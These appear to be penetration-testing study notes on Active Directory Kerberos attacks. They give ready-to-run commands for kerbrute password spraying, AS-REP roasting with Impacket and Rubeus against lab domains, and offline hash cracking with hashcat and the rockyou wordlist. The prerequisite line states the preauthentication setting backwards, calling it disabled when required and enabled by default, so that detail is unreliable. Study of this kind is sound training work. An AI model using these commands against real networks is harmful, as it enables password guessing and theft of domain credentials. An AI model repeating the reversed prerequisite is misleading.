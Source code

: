 > use `netexec` instead of `crackmapexec` (syntax same) (enter the venv located in crackmapexec folder in Tools)


### TGT 

If the credentials are valid, we’ll obtain a TGT.

Sends an AS-REQ with the given credentials and examines the response.

Tool: [kerbrute](https://github.com/ropnop/kerbrute) (Linux, Windows)

Windows:
`.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`

## AS-REP Roasting
The attacker performs an offline password attack using the encrypted part of an AS-REP.

Prerequisite: 
- the AD user account option *Do not require Kerberos preauthentication* is disabled for the target account (by default it is enabled) (to check, see below)

> If the hash generated by one tool doesn't work (e.g. hashcat says signature incorrect), try the other tool

### Tool: Impacket on Kali

Perform AS-REP Roasting with Impacket on Kali:
1. Find the users with *Do not require Kerberos preauthentication* disabled:
   `impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete`
	- `-dc-ip`: ip address of domain controller
	- `-request`: request for TGT
	- `-outputfile`: name of the output file (will be in hashcat format)
	- `corp.com/pete`: specify the authentication user information in the form of `domain/user` (will have to provide password)
2. Check the correct Hashcat mode for AS-REP hash:
   `hashcat --help | grep -i "Kerberos"`
	- Output: `18200 | Kerberos 5, etype 23, AS-REP | Network Protocol`
3. Perform cracking:
   `sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

AS-REP Roasting without creds:
`GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/'`

### Tool: Rubeus on Windows

Perform AS-REP roasting with Rubeus on Windows:
1. RDP to the target Windows machine as a domain user
2. Have Rubeus.exe available on the machine
3. Perform AS-REP roasting:
   `.\Rubeus.exe asreproast /nowrap`
	- `/nowrap`: prevent new lines being added to the resulting AS-REP hashes
4. Copy the AS-REP hash from the output and save it in a file on Kali (e.g. `hashes.asreproast2`). Use Hashcat to crack it:
   `sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
